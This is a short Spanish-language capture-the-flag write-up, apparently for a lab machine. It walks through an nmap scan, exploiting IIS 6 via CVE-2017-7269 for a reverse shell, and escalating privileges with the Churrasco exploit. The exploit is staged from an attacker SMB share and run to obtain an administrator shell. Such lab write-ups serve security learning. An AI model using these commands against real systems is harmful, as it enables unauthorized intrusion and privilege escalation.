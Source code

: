 Hacemos el escaneo con nmap:
![[Pasted image 20230901161535.png]]
Vemos un servicio de IIS en su versión 6 corriendo por el puerto 80, por lo que vamos a mirar:
![[Pasted image 20230901161602.png]]
Pero vamos a ver si hay exploits para explotar esta versión de IIS, donde vemos que sí con el CVE-2017-7269:
![[Pasted image 20230901161949.png]]
Y ahora poniendo esto otro en google ya vemos un exploit:
![[Pasted image 20230901162218.png]]
Y aquí vemos las instrucciones de cómo usar este exploit:
![[Pasted image 20230901162307.png]]
Por tanto lo lanzamos siguiendo estas instrucciones:
![[Pasted image 20230901162408.png]]
Y recibimos la reverse shell:
![[Pasted image 20230901162420.png]]
Y ya siendo el usuario administrador del servicio de la red:
![[Pasted image 20230901162437.png]]
Pero para escalar privilegios, tenemos que enumerar privilegios del sistema con el usuario que ya somos, usando el siguiente comando:
```bash
whoami/priv
```
Y vemos un privilegio que al estar habilitado nos puede servir para escalar:
![[Pasted image 20230901162740.png]]
Por tanto esto es vulnerable a rotten potato, por tanto hay un exploit llamado churrasco:
```bash
https://github.com/Re4son/Churrasco/
```
![[Pasted image 20230901163041.png]]
Nos lo compartimos con la máquina víctima:
```bash
impacket-smbserver recurso $(pwd) -smb2support
```
![[Pasted image 20230901163240.png]]
Dentro de la máquina víctima nos ubicamos dentro del directorio temp y aquí nos bajamos el archivo:
```bash
copy \\10.10.16.8\recurso\churrasco.exe churrasco.exe
```
![[Pasted image 20230901163426.png]]
Y ahora ejecutamos el siguiente comando con churrasco y ya somos el usuario administrador:
```bash
churrasco.exe -d "cmd.exe"
```
![[Pasted image 20230901163511.png]]

